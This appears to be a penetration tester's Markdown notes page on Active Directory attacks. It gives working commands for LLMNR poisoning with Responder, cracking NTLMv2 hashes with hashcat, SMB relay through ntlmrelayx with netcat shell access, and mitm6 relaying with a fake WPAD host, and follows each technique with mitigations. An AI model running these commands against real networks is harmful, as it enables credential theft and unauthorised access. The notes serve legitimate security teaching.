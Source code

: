 ```yaml
---
layout: default
title: Active Directory Attack Vectors
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## Active Directory Attack Vectors

Strategies:
1. Start with mitm6 or responder
2. Run scan to generate trafic (Nessus / Nmap)
3. if scan is too long, target website included in the scope. (http_version in metasploit)
4. Look for default credentials (Printers, Jenkins, Oracle, ....)


### LLMNR Poisoning

- Used to identify host when DNS is failing
- Previously called NBT-NS
- When we respond to this service, it respond with a username and the hashes

![LLMNR Poisoning](/writings/docs/assets/LLMNR.png)
![](docs/assets/LLMNR.png)

#### Responder (Capture NTLMv2 hashes)

The first step to perform this attack is to run [responder](https://github.com/lgandx/Responder).

It could be installed with [impacket toolkit](https://github.com/fortra/impacket).

It is the first tool to launch when starting an assignment.

Example using the `eth0` interface: 
```bash
python Responder.py -I eth0 -rdwv
```

When an event occurs, we receive the information about the user performing it, including his hash.

#### Crack NTLMv2 hashes

When we retrieve the hash we are going to crack it:

```bash
hashcat -m 5600 hashes.txt rockyou.txt
```


#### LLMNR Mitigation

- Disable LLMNR and NBT-NS
- Enable Network Access Control (NAC)
- Require strong user policy (to avoid the cracking)


### SMB Relay

- Instead of cracking the hash, relay them
- Need SMB signing to be disabled
- Relayed credentatials must be admin on the targeted machine

![SMB Relay](/writings/docs/assets/SMB_Relay.png)![](docs/assets/SMB_Relay.png)

#### Update responder

Updating the `Responder.conf` file by putting the `SMB` and `HTTP` value to `Off`

#### Start responder

We start responder like before, but now the SMB and HTTP server is off:

```bash
python Responder.py -I eth0 -rdwv
```

#### Find targets

Targets must have smb signing disabled, to detect hosts having this particularity, we can use nmap:

```bash
nmap --script=smb2-security-mode.nse -p445 $IP/$RANGE
```

Then we can add the lists of hosts in a file called `targets.txt`. 

#### Start the relay

Then we start the service in charge of the relay: 

```bash
python ntlmrelayx.py -tf targets.txt -smb2support
```

Once it's running, the relay will relay the hash to the other machine and if the connection is established, the SAM hashes are extracted from the host. (hashes of the local user on the computer)

##### Shell access

To update the usage to prompt a shell access we could add the `-i` option to the relay: 
```bash
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

We should see log indicating that a connection is open on a port.

To connect we use netcat:

```bash
netcat 127.0.0.1 11000
```

Then we are inside the smb shell of the corresponding server. 

#### SMB relay mitigation

- Enable SMB signing on every machine (decrease speed of transfer)
- Disable NTLM authentication on the network
- Implement account tierring 
- Restrict permission to local admin

### Gaining Shell Access 

As we might have retrieve credentail from previous section, we could use metasploit and `psexec`to gain a shell access. 

We could also use part of the impacket toolkit: 
- `psexec.py`
- `smbexec.py`
- `wmiexec.py`


### IPv6 - MITM6

#### Installing mitm6

[Github](https://github.com/dirkjanm/mitm6)

Should installed using pip (maybe pip2 if pip3 is breaking the installation) 

#### Launching the attack

```bash
mitm6 -d domain.local
```

From here we are starting to receive trafic form hosts in the network.

#### Setting up the relay

```bash
ntmlrelayx.py -6 -t ldaps://$AD_IP -wh fakewpad.evil.local -l lootme 
```

Now we sould wait for some trafic.

Once we have some trafic, we could check the `lootme` folder to verify all the information we were able to retrieved. 

To go further we could also use the [delegate access](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).

#### mitm6 mitigation

- Disable IPv6 if no device are using.
- Define block fules in the firewall.
- if WPAD is not used, it should be desactivated via the Group Policy.
- Enable LDAP signing and LDAP channel binding.
- Put admin user in the protected group in order to avoid the delegate access exploitation. 


### Passback attack

[Detail on the article](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)


### References:

- [https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) 